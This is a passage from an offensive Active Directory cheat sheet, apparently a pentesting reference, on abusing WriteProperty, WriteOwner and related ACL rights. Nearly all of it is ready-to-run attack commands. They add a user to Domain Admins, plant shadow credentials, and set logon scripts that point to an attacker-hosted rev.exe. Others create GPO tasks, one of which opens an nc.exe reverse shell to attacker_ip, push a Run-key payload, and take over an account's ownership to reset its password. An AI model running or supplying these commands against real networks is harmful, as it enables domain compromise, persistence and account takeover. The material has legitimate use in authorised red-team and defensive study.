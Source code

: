 #### WriteProperty / Self (All/Self-Membership)
`Self`  or `WriteProperty` right on `Self-Membership` objects for **a group**, give the ability to add ourselves to the group and escalate privileges:
```
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
net user spotless /domain
```
`WriteProperty` right on **a user**:
* ShadowCredentials
```
Whisker.exe add /target:<target> /domain:domain.local /dc:dc.domain.local /path:C:\path\to\file.pfx /password:"Password123!"
```
* Logon Script
```
#PowerView
Set-DomainObject <target> -Set @{'mstsinitialprogram'='\\ATTACKER_IP\rev.exe'} -Verbose

#AD module
Set-ADObject -SamAccountName '<target>' -PropertyName scriptpath -PropertyValue "\\ATTACKER_IP\rev.exe"
```
`WriteProperty` right on **a computer**:
* ShadowCredentials
```
Whisker.exe add /target:<target> /domain:domain.local /dc:dc.domain.local /path:C:\path\to\file.pfx /password:"Password123!"
```
`WriteProperty` right on **a GPO**, we can create an "evil" GPO with a scheduled task for example
```
#With PowerView
New-GPOImmediateTask -Verbose -Force -TaskName 'Update' -GPODisplayName 'weakGPO' -Command cmd -CommandArguments "/c net localgroup administrators user1 /add"

#With SharpGPOAbuse
./SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author Administrator --Command "cmd.exe" --Arguments "/c /tmp/nc.exe attacker_ip 4545 -e powershell" --GPOName "weakGPO"
```
`WriteProperty` right on **an OU**  + `CreateChild` on **policies** It is possible to create a fully new GPO and link it to an existing OU: 
```
#With RSAT module
New-GPO -Name "New GPO" | New-GPLink -Target "OU=Workstation,DC=domain,DC=local"
Set-GPPrefRegistryValue -Name "New GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /C \\path\to\payload" -Type ExpandString
```
After GPO refresh on the OU's machines, when the machines will restart the payload will be executed.
### WriteOwner (All)
With this rights on a user it is possible to become the "owner" (**Grant Ownership**) of the account and then change our ACLs against it. Note that the SID specified with `-Identity` is the SID of the targeted user:
```
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "username" -Verbose
Add-ObjectAcl -TargetIdentity S-1-5-21-2552734371-813931464-1050690807-512 -PrincipalIdentity username -Rights ResetPassword

#And change the password
$cred = ConvertTo-SecureString "Password123!" -AsPlainText -force                  
Set-DomainUserPassword -Identity <target> -accountpassword $cred
```
### GenericWrite (Script-Path)